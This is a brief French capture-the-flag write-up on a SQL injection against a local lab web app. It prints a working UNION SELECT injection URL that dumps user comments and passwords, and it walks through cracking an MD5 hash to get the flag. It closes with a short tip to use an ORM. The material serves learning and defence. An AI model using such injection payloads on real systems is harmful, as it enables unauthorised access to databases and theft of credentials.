 # Sql_0

## Detection des failles

http://192.168.56.102/?page=member&id=1 OR 1=1 UNION SELECT Commentaire, countersign FROM users--&Submit=Submit#

on s'interessera aux deux lignes:
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28

Le champ "Surname" est le md5 a decrypter

Quand on le decrypt, on obtient: FortyTwo

En minuscule : fortytwo

On le crypte maintenant en md5


## Comment s'en premunir

Utiliser un ORM (object-relational mapping) en passant par le server,
afin qu'il envoi les données sous forme de classe